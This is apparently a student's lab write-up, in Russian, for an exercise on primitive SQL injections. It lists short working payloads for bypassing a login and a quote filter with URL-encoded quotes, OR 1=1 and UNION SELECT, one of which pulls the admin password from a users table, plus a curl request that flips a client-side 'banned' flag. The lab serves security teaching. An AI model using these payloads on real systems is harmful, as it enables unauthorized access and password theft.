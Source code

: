 # Лабораторная работа 3
Примитивные SQL инъекции.

## Задание 1
### В исходниках найти "защиту" и обойти её двумя способами:
Можно войти под произвольным логином:
    %27 OR 1=1 union select %27logintest%27 order by 1 desc; --
Или использовать кодирование кавычек в альтернативный формат:
    %27 OR 1=1; --


## Задание 2
### Обойти клиентскую защиту с помощью ``curl``:
    --data-raw "name=MishaS&pass=qwerty12345asdfg&banned=true"

## Задание 3
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).
    %27 or 1=1; --

## Задание 4
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД.
    %27 union select pass from users where name = %27admin%27--
